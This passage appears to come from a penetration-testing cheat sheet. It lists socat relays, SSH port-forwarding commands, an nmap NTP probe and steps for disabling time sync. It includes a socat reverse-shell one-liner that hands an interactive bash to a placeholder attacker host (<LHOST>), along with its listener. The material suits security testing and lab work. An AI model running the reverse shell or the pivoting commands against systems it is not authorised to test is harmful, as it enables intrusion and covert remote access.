 ```c
recurse ON
prompt OFF
mput *
```

#### socat

```c
socat TCP-LISTEN:<LPORT>,fork TCP:<RHOST>:<RPORT>
```

```c
socat file:`tty`,raw,echo=0 tcp-listen:<LPORT>
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<LHOST>:<LPORT>
```

```c
socat tcp-listen:5986,reuseaddr,fork tcp:<RHOST>:9002
socat tcp-listen:9002,reuseaddr,fork tcp:192.168.122.228:5968 &
```

#### SSH

```c
ssh user@<RHOST> -oKexAlgorithms=+diffie-hellman-group1-sha1

ssh -R 8080:<LHOST>:80 <RHOST>
ssh -L 8000:127.0.0.1:8000 <USERNAME>@<RHOST>
ssh -N -L 1234:127.0.0.1:1234 <USERNAME>@<RHOST>

ssh -L 80:<LHOST>:80 <RHOST>
ssh -L 127.0.0.1:80:<LHOST>:80 <RHOST>
ssh -L 80:localhost:80 <RHOST>
```

#### Time and Date

##### Get the Server Time

```c
sudo nmap -sU -p 123 --script ntp-info <RHOST>
```

##### Stop virtualbox-guest-utils to stop syncing Time

```c
sudo /etc/init.d/virtualbox-guest-utils stop
```

##### Stop systemd-timesyncd to sync Time manually

```c
sudo systemctl stop systemd-timesyncd
```

##### Disable automatic Sync

```c
sudo systemctl disable --now chronyd
```
